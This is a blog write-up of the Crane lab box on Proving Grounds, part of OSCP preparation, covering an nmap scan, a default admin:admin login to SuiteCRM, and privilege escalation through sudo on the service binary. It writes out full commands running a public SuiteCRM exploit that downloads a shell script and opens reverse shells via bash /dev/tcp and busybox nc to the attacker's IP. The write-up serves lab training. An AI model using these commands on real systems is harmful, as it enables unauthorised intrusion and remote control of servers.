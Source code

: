 ```yaml
---
layout: writeup
title: Crane - Proving Grounds
date: 2024-07-12 13:32:20 +0300
description: A Writeup of the Crane Box from Proving Grounds
image: # /assets/images/Crane/Crane_5.png
fig-caption: # Add figcaption (optional)
tags: [TJ Null, Linux]
---
```



Here is a writeup for the Crane lab on [Proving Grounds](https://www.offsec.com/labs/), another box from TJ Null's OSCP [lab prep list](https://docs.google.com/spreadsheets/u/1/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/htmlview#). I start out with an nmap scan and check out port 80 as soon as it pops up. 

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 37:80:01:4a:43:86:30:c9:79:e7:fb:7f:3b:a4:1e:dd (RSA)
|   256 b6:18:a1:e1:98:fb:6c:c6:87:55:45:10:c6:d4:45:b9 (ECDSA)
|_  256 ab:8f:2d:e8:a2:04:e7:b7:65:d3:fe:5e:93:1e:03:67 (ED25519)
80/tcp   open  http    Apache httpd 2.4.38 ((Debian))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-title: SuiteCRM
|_Requested resource was index.php?action=Login&module=Users
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Apache/2.4.38 (Debian)
3306/tcp open  mysql   MySQL (unauthorized)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

![[Crane_5.png]](/assets/images/Crane/Crane_5.png){: .center-aligned width="600px"}

Looks like we have a web app entitled SuiteCRM. I check the source for a version and run a gobuster scan, but it also turns out I can log into using admin:admin. This might come in handy because I see some authenticated exploits on exploit-db. 

It looks like this one actually has admin:admin hardcoded. Maybe I can check authenticated exploits for clues like that in the future. We'll download it and change the URL.

![Crane_4.png](/assets/images/Crane/Crane_4.png){: .center-aligned width="600px"}

I can't get this one working, but I look around on Google, and I find another one here: https://github.com/manuelz120/CVE-2022-23940. 

After cloning the repo I run this command: `python3 exploit.py -h http://192.168.162.146/index.php -u admin -p admin -P 'wget http://192.168.45.154/shell8080.sh'` and the file is downloaded. That means we have execution at least. Unfortunately I can't get the shell to execute, or at least I can't get the reverse shell.  I make a note to retry with different shells and ports and from different directories. It makes sense to start with ports first, but I try with 80, 8080, 443, and 3306 (because there is a SQL server running) using a simpler shell (`/bin/bash -i >& /dev/tcp/192.168.45.154/80 0>&1`). Nothing on that unfortunately. 

I try a few other reverse shells and can't seem to get them working on any port, until I try this one: `busybox nc 192.168.45.154 80 -e /bin/bash`. The full command is  `python3 exploit.py -h http://192.168.162.146/index.php -u admin -p admin -P 'busybox nc 192.168.45.154 80 -e /bin/bash'`. I'm not sure I've used this one much, but I noticed in someone else's OSCP notes as a notably good one. Maybe I need to try it more, but I did get a shell with it as www-data. 

I download and run `linpeas.sh` to scope the machine out. The /usr/sbin/service binary immediately jumps out while I'm scrolling through the linpeas output. 

![Crane_3.png](/assets/images/Crane/Crane_3.png){: .center-aligned width="600px"}

Then I notice I can run it using sudo. That's a good sign. 

![Crane_2.png](/assets/images/Crane/Crane_2.png){: .center-aligned width="600px"}

Bingo. 

![Crane_1.png](/assets/images/Crane/Crane_1.png){: .center-aligned width="600px"}

What did we learn on this box? Don't give up if a few shells don't work, and spend some more time with that busybox one in particular. Oh - and try admin:admin when logging into a service. Note that there is a local.txt file in the /var/www/html directory. I missed that when I got the initial shell. 


